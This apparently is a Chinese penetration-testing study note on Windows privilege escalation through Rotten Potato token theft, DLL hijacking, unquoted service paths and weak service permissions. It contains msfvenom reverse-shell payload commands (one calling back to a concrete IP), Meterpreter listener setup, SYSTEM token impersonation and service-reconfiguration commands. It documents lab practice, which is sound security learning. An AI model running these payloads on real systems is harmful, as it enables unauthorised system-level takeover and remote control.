



# 烂土豆&dll劫持&引号路径&服务权限



## 烂土豆配合令牌窃取提权

单纯令牌窃取：适用于web权限或本地提权

如配合烂土豆提权：适用于web或数据库等权限

RottenPotato（烂土豆）提权原理：

1. 欺骗 "NT AUTHORITY\SYSTEM"账户通过NTLM认证到我们控制的TCP终端。
2. 对这个认证过程使用中间人攻击（NTLM重放），为"NT AUTHORITY\SYSTEM"账户本地协商一个安全令牌。这个过程是通过一系列的Windows API调用实现的。
3. 模仿这个令牌。只有具有"模仿安全令牌权限"的账户才能去模仿别人的令牌。一般大多数的服务型账户（IIS、MSSQL等）有这个权限，大多数用户级的账户没有这个权限。

本地提权，只针对本地用户。适用于win7、8、10、2008、2012。

一般从web拿到的webshell都是服务器权限，是具有这个模仿权限的。测试过程中，发现使用已经建好的账户（就是上面说的用户级账户）去反弹meterpreter然后再去执行EXP的时候会失败，但使用菜刀（服务器权限）反弹meterpreter就会成功。即**非服务类用户权限无法窃取成功。**

烂土豆可以理解为是通过中间人攻击，将COM（NT\\SYSTEM权限）在第二步挑战应答过程中认证的区块改成自己的区块获取SYSTEM令牌，然后利用msf的模仿令牌功能模仿SYSTEM令牌。

烂土豆提权过程：**上传烂土豆-执行烂土豆-利用窃取模块-窃取SYSTEM-成功**

烂土豆比热土豆的优点是： 

1. 100%可靠    
2. （当时）全版本通杀。  
3. 立即生效，不用像hot potato那样有时候需要等Windows更新才能使用。

### 实践

利用phpStudy上传大马，查看权限，发现是shell权限，这个应该是最低权限



生成一个反连后门，并上传到目标服务器。

```shell
msfvenom -p  windows/meterpreter/reverse_tcp lhost=<Your IP Address> lport=<Your Port to Connect On>  -f exe -o shell.exe
```


msf启动监听

```shell
msfconsole
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 5577
exploit
```


通过wenshell，执行后门程序。


监听到会话，是web普通权限。


使用令牌窃取提权

```shell
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```


提权失败，单纯用令牌窃取提权需要有一定的权限，这里的权限太低。

单纯用令牌窃取提权需要有一个高一点的权限（administer），如果单纯是一个web权限（iis/defaultAPP），应该是无法成功的。（注意：如果先用令牌窃取失败，再尝试用烂土豆配合令牌窃取，可能会导致后者也失败，必须从头重新开始。所以最好直接使用烂土豆配合令牌窃取，不要测试这一步）

尝试用烂土豆配合令牌窃取提权。

先将烂土豆`potato.exe`上传到目标服务器。

```shell
upload potato.exe地址 上传的目标地址 # 使用msf上传，也可以使用webshell上传
```


然后执行以下命令，成功提权。

```shell
cd 烂土豆的目录
execute -cH -f ./potato.exe
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

然而失败了。


在不使用令牌窃取，直接使用烂土豆，还是失败了。

## DLL劫持提权应用配合MSF

Windows程序启动的时候需要DLL。如果这些DLL不存在，则可以通过在应用程序要查找的位置放置恶意DLL来提权。

通常，Windows应用程序有其预定义好的搜索DLL的路径，它会根据下面的顺序进行搜索：

1. 应用程序加载的目录
2. C:\Windows\System32
3. C:\Windows\System
4. C:\Windows
5. 当前工作目录Current Working Directory，CWD
6. 在PATH环境变量的目录（先系统后用户）

过程：**信息收集（服务器上的第三方程序的信息）-->进程调试（分析这个程序在运行的时候调用了那些dll）-->制作dll并上传（制作后门dll去替换原有的dll）-->替换dll-->启动应用后成功**

条件：dll 劫持提权需要特定软件应用的控制权限及启用配合，复杂鸡肋。

1. 特定第三方软件
2. 特定软件的控制权限
3. AlwaysInstallElevated提权默认禁用配置，利用成功机会很少
4. 管理员要启动程序
5. dll程序要能替换

通过信息收集，发现目标服务器上存在一个第三方软件flashfxp，并且发现有dll文件。


因为第三方软件在对方服务器上，所以我们需要本地下载一个相同的软件，使用火绒剑工具进行进程调试分析。

由于系统文件和系统目录里的文件我们无法删除修改，因此我们可以重点查看在软件安装目录里的未知文件和数字签名文件。可以选择`libssl-1_1.dll`文件进行后续的删除替换。


msf生成后门木马。

```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=101.37.169.46 lport=6677 -f dll >/opt/x.dll # 生成到指定目录
msfvenom -p windows/meterpreter/reverse_tcp lhost=101.37.169.46 lport=6677 -f dll -o xxx.dll # 生成到根目录
```

msf启动监听，服务器运行flashfxp软件程序，成功监听到会话。


将`libssl-1_1.dll`上传到目标服务器。


先查看获取到的权限。


配合令牌窃取，成功提权，获取到system权限。

```shell
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```


## 不带引号服务路径配合MSF

当Windows服务运行时，会发生以下两种情况之一。

如果给出了可执行文件，并且引用了完整路径，则系统会按字面解释它并执行。

但是，如果服务的二进制路径未包含在引号中，则操作系统将会执行找到的空格分隔的服务路径的第一个实例。


`windows`服务`services.msc`，里面有路径、参数等等，服务里面的文件是以system权限运行的，但是win系统配置如果不带`""`就会出现安全问题。

例如：

有一个服务`time.exe`，他的可执行文件的路径是`"C:\Program Files\time.exe"`，路径被包含在引号中，则系统会正常解释并执行它，但是如果可执行文件的路径是`C:\Program Files\time.exe`，未被包含在引号中，则操作系统会执行空格之前的`C:\Program`，而将空格之后的 `Files\time.exe`当做参数，导致出错。



过程：**检测引号服务路径-利用路径制作文件并上传-启用服务或重启-调用后成功**

检测引号服务路径

执行命令，检测未被引号包含且还有空格的服务路径。

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```


检测到的服务即没有引号，也没有空格，可能不会成功。

利用路径制作文件并上传

使用`msf`制作一个后门，命名为`phpStudyServer.exe`，上传到目标服务器`C:/phpstudy_pro/COM/`目录。

启动服务。可以在webshell中或者本地启动服务。但是测试时，webshell中启动不了，所以不带引号服务路径提权方法还是多用于本地提权，打开Windows的服务面板的命令`services.msc`。

```shell
sc start "服务名" # 启动服务的命令
```

由于没有引号，也没有空格，在使用时服务没有启动成功，所以MSF没有监听成功，这个方法失败了。

## 不安全的服务权限配合MSF

原理：即使正确引用了服务路径，也可能存在其他漏洞。由于管理配置错误，用户可能对服务拥有过多的权限。

例如：可以直接修改它导致重定向执行文件。

过程：检测服务权限配置（根据当前权限分析有没有可以操作的服务配置）-->制作文件并上传-->更改服务路径指向-->调用后成功。

执行命令，检测当前用户所在组的服务权限（实战中一般都不是administrators组，这里仅做测试用），列出的都是当前用户可以操作的服务。

```powershell
.\accesschk.exe -uwcqv "administrators" *
```

必须先弹窗之后才能使用，所以就比较鸡肋了，只能本地测试了。


制作后门木马并上传，然后注册服务。

```powershell
sc create 服务名 binPath= 路径 start=auto # 创建服务
net start 服务名 # 启动服务
sc stop 服务名 # 停止服务
sc delete 服务名 # 删除服务
sc config "服务名" binpath="对应的文件路径（绝对路径）" # 修改服务路径
```


服务

```powershell
sc start serviceName
```

但是对这个进行监听的时候，发现监听失败了。


通过修改原有服务来测试一下：


还是失败了，出错的原因可能是我的服务创建的有问题。


# 关于Windows提权相关知识点总结

主要是关于，权限层，系统层，防护层的提权。

提权方法对应层面（web权限（Python/php/asp/iis搭建）和管理员权限（本地、Java、phpStudy、宝塔等搭建））

权限划分：system > administer > users > webshell权限

本地权限（用于内网渗透的层面）

提权方法对应系统版本，不同的提权方法对应不同版本的操作系统，相关文件及后门免杀问题等。